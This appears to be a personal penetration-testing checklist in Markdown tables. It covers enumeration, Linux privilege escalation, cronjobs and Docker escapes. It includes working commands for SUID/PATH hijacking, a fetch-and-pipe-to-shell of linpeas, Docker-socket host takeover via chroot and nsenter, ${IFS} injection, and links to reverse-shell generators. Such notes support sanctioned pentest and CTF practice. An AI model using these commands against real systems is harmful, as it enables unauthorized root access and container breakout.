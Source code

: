 ## **General Checklist**

#### **General**
| | |
|--|--|
| https://book.hacktricks.xyz/pentesting-web/ | |
| https://www.revshells.com/ | *# insted of looking for payloads everytime use this to generate a reverse shell code* |
| cp /bin/bash ./bash; chmod +s ./bash and ./bash -p | *# copy the /bin/bash to the local dir and add sticky bit; mostly useful in cronjobs* |
| $DOMAIN.local | *# invalid TLD do people commonly use for their Active Directory Domain* |
| password guessing | |
| packet headers check| |
| check http headers| |
| env | *# check environment variables* |
| lsb_release | *# check for OS/Kernel vulnerabilities* |
| nmap UDP scan | *# if nothing interesting is found on any ports and services - do a nmap UDP scan -sU* |
| cat /etc/apache2/sites-enabled/$*.conf | *# check these files if there are more folders in the /var/www/ dir. knida like a vhost* |


### **Enumeration**
#### **FTP**
| | |
|--|--|
| check for anonymous login from the nmap script scan| |
| use brutespray to brute force common usernames and passwords from the nmap.xml  | |


### **Priviledge Escalation**
#### **Linpeas**
| | |
|--|--|
| curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh \| sh | *# Runs the linpeas script* |
| curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh | *# Downloads the linpeas script to the local dir* |

#### **GTFOBins**
| | |
|--|--|
| https://gtfobins.github.io/gtfobins | |


#### **SUID bit file finder**
| | |
|--|--|
| ![SUID_BIT](/images/suid_bit.png) | |
| SUID bit| *# User executes the file with permissions of the file owner* |
| SGID Bit | *# User executes the file with the permission of the group owner. File created in directory gets the same group owner.* |
| Sticky Bit | *# No meaning. Users are prevented from deleting files from other users.* |

##### **SUID Exploitation**
| | |
|--|--|
|  find / -perm -u=s -type f 2>/dev/null | *# finds the files with the permission sticky bit and channels the errors to /dev/null* |
| /usr/bin/menu | *# lets say we found an executable with sticky bit in the paht /usr/bin/menu and it executes a bash command - ex: curl*|
| echo "/bin/sh" > curl | *# create a file with the same executable name in the /tmp or home dir of any user* |
| chmod 777 curl | *# give all permission to the file* |
| export PATH=/$cURRENT_FILE_PATH:$PATH | *# change the PATH variable by adding the current folder into the PATH variable* |
| /usr/bin/menu | *# run the file and make sure it triggers the executable* | 


#### **Cronjobs**
| | |
|--|--|
| cat /etc/cronjob | *# to check the default cronjob file for cronjobs* |

#### **Docker breakout**
| | |
|--|--|
| 1. Mounted Docker Socket Escape | |
| find / -name docker.sock 2>/dev/null | *# If somehow you find that the docker socket is mounted inside the docker container, you will be able to escape from it. This usually happen in docker containers that for some reason need to connect to docker daemon to perform actions. #It's usually in /run/docker.sock* |
| Exploitation | *# In this case you can use regular docker commands to communicate with the docker daemon* |
| docker images | *# inside the remote machine - list all docker images* |
| docker run -it -v /:/host/ $IMAGE_NAME chroot /host/ bash | *# Run the image mounting the host disk and chroot on it* |
| docker run -it --rm --pid=host --privileged $IMAGE_NAME bash | *# Get full access to the host via ns pid * |
 nsenter --target 1 --mount --uts --ipc --net --pid -- bash | *# and nsenter cli* |
| docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host $IMAGE_NAME chroot /host/ bash | *# Get full privs in container without --privileged* |

#### **Misc**
| | |
|--|--|
| bash unquoted variable bruteforce | *# https://github.com/anordal/shellharden/blob/master/how_to_do_things_safely_in_bash.md?source=post_page-----933488bfbfff--------------------------------* |
| ${IFS} in payloads for web application param tampering | IFS - Internal Field Seperator, which is used in the case that whitespaces are not supported |



### **Reverse Shell**

| | |
|--|--|
| https://highon.coffee/blog/reverse-shell-cheat-sheet/#bash-reverse-shells | *# reverse shell one-liners* |
| https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html | *# List of privilege escalation techiniques for linux* |